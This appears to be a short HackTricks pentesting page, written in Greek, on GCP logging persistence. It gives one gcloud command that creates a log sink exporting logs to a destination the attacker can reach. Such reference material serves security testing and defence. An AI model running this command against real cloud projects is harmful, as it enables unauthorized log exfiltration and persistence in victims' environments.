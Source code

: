 # GCP - Logging Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Logging

Βρείτε περισσότερες πληροφορίες σχετικά με το Logging στο:

{{#ref}}
../gcp-services/gcp-logging-enum.md
{{#endref}}

### `logging.sinks.create`

Δημιουργήστε μια δεξαμενή για να εξάγετε τα logs σε έναν προορισμό προσβάσιμο από τον επιτιθέμενο:
```bash
gcloud logging sinks create <sink-name> <destination> --log-filter="FILTER_CONDITION"
```
{{#include ../../../banners/hacktricks-training.md}}
